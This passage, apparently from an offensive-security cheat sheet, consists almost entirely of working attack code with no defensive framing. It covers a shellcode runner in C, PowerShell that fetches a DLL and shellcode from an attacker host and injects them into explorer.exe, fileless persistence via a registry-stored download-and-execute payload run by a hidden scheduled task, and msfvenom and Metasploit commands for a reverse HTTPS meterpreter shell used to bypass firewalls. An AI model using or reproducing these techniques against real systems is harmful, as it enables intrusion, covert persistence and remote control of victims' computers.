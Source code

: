 ```bash
    void *exec = VirtualAlloc(0, sizeof buf, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    memcpy(exec, buf, sizeof buf);
    ((void(*)())exec)();
    
    return 0;
}

# Compile with MinGW
x86_64-w64-mingw32-gcc payload.c -o payload.exe -s -O3
```

### In-Memory Execution
```powershell
# PowerShell reflective loading
$bytes = (Invoke-WebRequest "http://192.168.1.100/payload.dll" -UseBasicParsing).Content
$assembly = [System.Reflection.Assembly]::Load($bytes)
$entryPointMethod = $assembly.GetType('Namespace.Class').GetMethod('Method')
$entryPointMethod.Invoke($null, [object[]]@())

# Process injection
$bytes = (Invoke-WebRequest "http://192.168.1.100/shellcode.bin" -UseBasicParsing).Content
$procId = Get-Process explorer | Select-Object -ExpandProperty Id
$baseAddr = [Win32]::VirtualAllocEx($procHandle, 0, $bytes.Length, 0x3000, 0x40)
[Win32]::WriteProcessMemory($procHandle, $baseAddr, $bytes, $bytes.Length, [ref]0)
$threadHandle = [Win32]::CreateRemoteThread($procHandle, 0, 0, $baseAddr, 0, 0, 0)
```

### Fileless Malware Techniques
```powershell
# Registry-based payload storage
$payload = "powershell -c IEX ([System.Net.WebClient]::new()).DownloadString('http://192.168.1.100/payload.ps1')"
New-Item -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\" -Name "Debug" -Force
New-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Debug\" -Name "Payload" -Value $payload -PropertyType String -Force

# Execute from registry
powershell -c "IEX (Get-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Debug\').Payload"

# Scheduled task for execution
schtasks /create /tn "Registry Exec" /tr "powershell.exe -WindowStyle hidden -NonInteractive -ExecutionPolicy Bypass -c \"IEX (Get-ItemProperty -Path 'HKCU:\Software\Microsoft\Windows\CurrentVersion\Debug\').Payload\"" /sc minute /mo 30
```

## Firewall Bypass Methods

### Port and Protocol Manipulation
```bash
# Use common allowed ports
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f exe -o payload.exe

# Set up multi-handler for HTTPS
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_https
set LHOST 192.168.1.100
set LPORT 443
set EXITFUNC thread
set ExitOnSession false
exploit -j

```